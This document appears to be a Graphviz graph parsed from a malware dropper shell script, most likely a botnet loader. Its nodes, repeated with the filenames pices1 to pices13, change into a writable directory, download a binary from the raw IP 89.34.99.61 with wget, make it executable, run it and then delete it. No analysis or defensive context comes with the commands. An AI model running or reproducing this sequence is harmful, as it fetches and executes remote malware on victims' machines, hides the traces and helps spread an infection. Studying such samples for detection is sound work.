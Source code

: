 digraph {
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 10 [label="||,"];
10 [label="wget http://89.34.99.61/pices1 "];
10 -> 12 [label=";,"];
12 [label="chmod +x pices1 "];
12 -> 14 [label=";,"];
14 [label="./pices1 "];
14 -> 16 [label=";,"];
16 [label="rm -rf pices1 "];
16 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 28 [label="||,"];
28 [label="wget http://89.34.99.61/pices2 "];
28 -> 30 [label=";,"];
30 [label="chmod +x pices2 "];
30 -> 32 [label=";,"];
32 [label="./pices2 "];
32 -> 34 [label=";,"];
34 [label="rm -rf pices2 "];
34 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 46 [label="||,"];
46 [label="wget http://89.34.99.61/pices4 "];
46 -> 48 [label=";,"];
48 [label="chmod +x pices4 "];
48 -> 50 [label=";,"];
50 [label="./pices4 "];
50 -> 52 [label=";,"];
52 [label="rm -rf pices4 "];
52 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 64 [label="||,"];
64 [label="wget http://89.34.99.61/pices5 "];
64 -> 66 [label=";,"];
66 [label="chmod +x pices5 "];
66 -> 68 [label=";,"];
68 [label="./pices5 "];
68 -> 70 [label=";,"];
70 [label="rm -rf pices5 "];
70 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 82 [label="||,"];
82 [label="wget http://89.34.99.61/pices6 "];
82 -> 84 [label=";,"];
84 [label="chmod +x pices6 "];
84 -> 86 [label=";,"];
86 [label="./pices6 "];
86 -> 88 [label=";,"];
88 [label="rm -rf pices6 "];
88 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 100 [label="||,"];
100 [label="wget http://89.34.99.61/pices7 "];
100 -> 102 [label=";,"];
102 [label="chmod +x pices7 "];
102 -> 104 [label=";,"];
104 [label="./pices7 "];
104 -> 106 [label=";,"];
106 [label="rm -rf pices7 "];
106 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 118 [label="||,"];
118 [label="wget http://89.34.99.61/pices8 "];
118 -> 120 [label=";,"];
120 [label="chmod +x pices8 "];
120 -> 122 [label=";,"];
122 [label="./pices8 "];
122 -> 124 [label=";,"];
124 [label="rm -rf pices8 "];
124 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 136 [label="||,"];
136 [label="wget http://89.34.99.61/pices9 "];
136 -> 138 [label=";,"];
138 [label="chmod +x pices9 "];
138 -> 140 [label=";,"];
140 [label="./pices9 "];
140 -> 142 [label=";,"];
142 [label="rm -rf pices9 "];
142 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 154 [label="||,"];
154 [label="wget http://89.34.99.61/pices10 "];
154 -> 156 [label=";,"];
156 [label="chmod +x pices10 "];
156 -> 158 [label=";,"];
158 [label="./pices10 "];
158 -> 160 [label=";,"];
160 [label="rm -rf pices10 "];
160 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 172 [label="||,"];
172 [label="wget http://89.34.99.61/pices11 "];
172 -> 174 [label=";,"];
174 [label="chmod +x pices11 "];
174 -> 176 [label=";,"];
176 [label="./pices11 "];
176 -> 178 [label=";,"];
178 [label="rm -rf pices11 "];
178 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 190 [label="||,"];
190 [label="wget http://89.34.99.61/  "];
190 -> 192 [label=";,"];
192 [label="chmod +x   "];
192 -> 194 [label=";,"];
194 [label="./  "];
194 -> 196 [label=";,"];
196 [label="rm -rf   "];
196 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 208 [label="||,"];
208 [label="wget http://89.34.99.61/pices12 "];
208 -> 210 [label=";,"];
210 [label="chmod +x pices12 "];
210 -> 212 [label=";,"];
212 [label="./pices12 "];
212 -> 214 [label=";,"];
214 [label="rm -rf pices12 "];
214 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 226 [label="||,"];
226 [label="wget http://89.34.99.61/pices13 "];
226 -> 228 [label=";,"];
228 [label="chmod +x pices13 "];
228 -> 230 [label=";,"];
230 [label="./pices13 "];
230 -> 231 [label=";,"];
}
